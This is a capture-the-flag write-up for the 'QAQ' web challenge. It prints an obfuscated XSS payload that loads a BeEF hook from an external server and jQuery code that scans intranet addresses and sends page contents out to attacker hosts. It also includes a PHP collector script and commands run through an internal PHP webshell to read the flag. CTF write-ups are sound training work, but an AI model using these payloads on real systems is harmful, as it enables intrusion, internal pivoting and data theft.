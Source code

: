 # Writeup for QAQ (WEB) (350)

> Solves: 16
web
http://104.199.132.251:80
hint1: What else can XSS do? Just steal cookies? Secret in intranet，hack harder guys!
hint2: CORS headers
  
We had a web interface:

![Screenshot_1.png](Screenshot_1.png)

After submit form, had summary, so we could test XSS prevention bypass, by us (this alert was not xss, was native in response):

![Screenshot_2.png](Screenshot_2.png)

Our XSS Payload: 

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

XSS successfully append code to body:
```
<script type="text/javascript" src="http://1.2.3.4/js/hook.js"></script>
```
So we could execute any unrestricted javascript code, from our external server.

On first we execute [hook.js](hook.js) from BeEF source.

Hint `Secret in intranet` prompted us to scan hosts in BeEF, results was:

```
127.0.0.1       localhost       Linux
172.17.0.1                      Linux 
192.168.1.3                     Linux
```

After that we checked IP nearest to founded hosts

Injected JS code (only replaced code in hook.js in our server, XSS payload was same)
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://192.168.1.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.1"} );
});
jQuery.get( "http://192.168.1.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.2"} );
});
jQuery.get( "http://192.168.1.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.3"} );
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```

Source of server script observer code (http://1.2.3.4/app_dev.php):
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```


We had response from `172.17.0.2` that looked promising. Next step was checked what was there.

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:

```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```

Looked nice. We had php shell from `$_GET[c]`

Changed hook.js again, for:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=ls", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```

gave us response:
```
fl4g
index.php
index.php
```

And finally:
```
(LONG INLINE JQUERY SOURCE)

jQuery.get( "http://172.17.0.2/?c=cat fl4g", function( data ) {
    jQuery.post( "http://37.59.36.155/app_dev.php", { x: data} );
});
```


returned flag